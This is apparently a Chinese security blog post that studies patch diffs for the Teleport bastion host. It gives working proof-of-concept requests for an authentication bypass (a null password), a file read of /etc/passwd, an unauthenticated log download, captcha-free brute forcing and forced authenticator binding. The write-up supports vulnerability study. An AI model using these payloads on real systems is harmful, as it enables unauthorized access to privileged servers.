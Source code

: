 ```yaml
---
title: "teleport堡垒机审计学习"
date: 2022-09-16T12:00:00+08:00
draft: false
author: "r0fus0d & kitezzzGrim"

---
```


代码审计做的比较少，看到大佬发的分析文章，正好学习下
- https://www.o2oxy.cn/4132.html

---

访问下载页面 https://tp4a.com/download

更新公告里说明了几个漏洞情况

![](../../img/teleport_case/1.png)

下载 补丁包和原版包，进行对比

## 任意用户登录

![](../../img/teleport_case/2.png)

补丁里对几种登录类型进行了验证，不允许 password 值为 null

可以看下验证登录的函数 login,在 data/www/teleport/webroot/app/model/user.py

![](../../img/teleport_case/7.png)

在 password 为null 的时候就跳过了验证

poc
```
抓包，把密码改为 null 即可
      {
          "type":2,
          "username":"admin",
          "password":null,
          "captcha":"rhcl",
          "oath":"",
          "remember":false
      }
```

顺便可以看下在 tp-const.js 里的几种登录类型的定义

![](../../img/teleport_case/6.png)

这里 type 为 2 就是 TP_LOGIN_AUTH_USERNAME_PASSWORD_CAPTCHA 也就是 用户名+密码+验证码 类型

---

## 后台文件下载

![](../../img/teleport_case/3.png)

修复补丁给 DoGetFileHandler 函数加上了一个限制，仅允许读取

找下路由

![](../../img/teleport_case/8.png)

验证了权限，所以是后台洞

![](../../img/teleport_case/9.png)

poc
```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

---

## 前台日志下载

这时我发现升级描述里还有一句 `修正：经过特别构造的请求，无需登录即可读取TP系统操作日志；` ,这个洞应该也是未授权的.

下载 teleport-server-linux-x64-3.6.4-b3.tar.gz 和 3.6.3 对比下

![](../../img/teleport_case/4.png)

果然，补丁给 DoGetLogsHandler 这个函数加上了权限验证,看下他的路由

![](../../img/teleport_case/5.png)

poc
```
    POST http://xxx.xxx.xxx.xxx/system/get-logs HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Length: 162
    Content-Type: application/x-www-form-urlencoded;
    Connection: close

    args=%7B%22filter%22%3A%7B%7D%2C%22order%22%3A%7B%22k%22%3A%22log_time%22%2C%22v%22%3Afalse%7D%2C%22limit%22%3A%7B%22page_index%22%3A0%2C%22per_page%22%3A25%7D%7D
```

---

## 绕过验证码爆破

继续看路由，发现BindOathHandler这个函数也不需要鉴权，这个路由下还存在登陆点且无需验证码

poc
```
/user/bind-oath
```

```
POST /user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 102
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3A%22123456%22%2C%22check_bind_oath%22%3Atrue%7D
```

不过注意,默认口令启用强密码策略，要求密码至少8位，必须包含大写字母、小写字母以及数字

---

## 强行绑定身份验证器

同样是BindOathHandler这个函数,看了下他返回user/bind-oath.mako的模版，模版里向/user/verify-user 发送认证请求，通过路由定位到函数DoVerifyUserHandler

![](../../img/teleport_case/10.png)

可以看到，这里也是用 user.login 函数认证的，所以 password 直接用 null 就可以绕过了

poc
```
POST http://xx.xx.xx.xx/user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3Anull%2C%22check_bind_oath%22%3Atrue%7D
```

![](../../img/teleport_case/11.png)

同样，下一个包也设为 null 即可

这洞没啥用，可以用于恶心管理员 😝

---

## 一些思考

1. 根据这个权限验证代码的存在与否可以找前台未授权的点，那么能不能实现自动找未授权页面？
2. 几个权限绕过本质上是 login 函数的问题，可以根据login函数调用点找漏洞触发点
